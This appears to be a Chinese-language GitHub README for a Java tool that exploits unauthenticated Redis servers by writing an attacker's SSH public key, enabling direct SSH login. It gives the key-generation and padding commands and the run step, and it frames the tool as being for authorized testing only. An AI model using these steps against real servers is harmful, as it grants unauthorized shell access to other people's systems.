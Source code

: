 **Redis未收取SSH协议公钥写入漏洞验证**

**Code By:Tas9er**



警 告
本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点



授权测试用例:

将企业授权安全测试目标整理后放入url.txt

Example:
Ⅰ:建议攻击机使用Linux操作系统
Ⅱ:攻击机Linux执行:ssh-keygen -t rsa
Ⅲ:攻击机Linux执行:(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > fuck.txt
Ⅳ:将生成的fuck.txt里的数据拷贝到本工具目录下的key.txt
Ⅴ:攻击成功后可以直接在攻击机Linux里执行ssh ip

java -jar RedisSSHKey.jar

![example01](example01.png)

![example02](example02.jpg)

等待系统结束后,存在漏洞的网站以及结果会保存在当前目录下,同时也对企业服务器的安全设备的部署有一定的可用性检测。



